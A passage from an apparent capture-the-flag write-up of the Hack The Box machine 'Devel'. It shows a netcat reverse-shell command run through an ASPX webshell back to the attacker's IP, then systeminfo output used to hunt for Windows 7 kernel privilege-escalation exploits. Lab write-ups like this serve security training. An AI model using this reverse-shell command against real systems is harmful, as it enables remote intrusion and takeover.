 Next, all we have to do is to input the following command onto the webshell at http://devel.htb/cmd.aspx to spawn the reverse shell

```
\\10.10.16.8\share\nc.exe -e cmd.exe 10.10.16.8 4000
```

### Privilege Escalation to system
However, we realize that we do not have the privileges to view the ```babis``` and ```Adminstrator``` directory yet. Hence, we would need to find a privilege escalation vector.

```
c:\Users>cd babis
cd babis
Access is denied.

c:\Users>cd Administrator
cd Administrator
Access is denied.
```

### Privilege Escalation to root

We will first use ```systeminfo``` to find out information about the server that we are looking at. From the output, we can see that this is a Microsoft Windows 7 Enterprise Build 7600 and is an x86-based PC. This is a pretty outdated software and there may be several kernel exploits that could be exploited.

```
c:\Windows\Temp>systeminfo                                   
systeminfo                                                   
Host Name:                 DEVEL                                                        
OS Name:                   Microsoft Windows 7 Enterprise                                                   
OS Version:                6.1.7600 N/A Build 7600                                                         
OS Manufacturer:           Microsoft Corporation                                                  
OS Configuration:          Standalone Workstation                                                  
OS Build Type:             Multiprocessor Free                                                         
Registered Owner:          babis                                                        
Registered Organization:                                                
Product ID:                55041-051-0948536-86302                                      
Original Install Date:     17/3/2017, 4:17:31 ��                                                           
System Boot Time:          1/1/2022, 8:18:13 ��                                                           
System Manufacturer:       VMware, Inc.                                                         
System Model:              VMware Virtual Platform                                                     
System Type:               X86-based PC 
```

Executing the WinPrivCheck.bat from [here](https://github.com/codingo/OSCP-2/edit/master/Windows/WinPrivCheck.bat), we realize that this server is vulnerable to a lot of exploits.
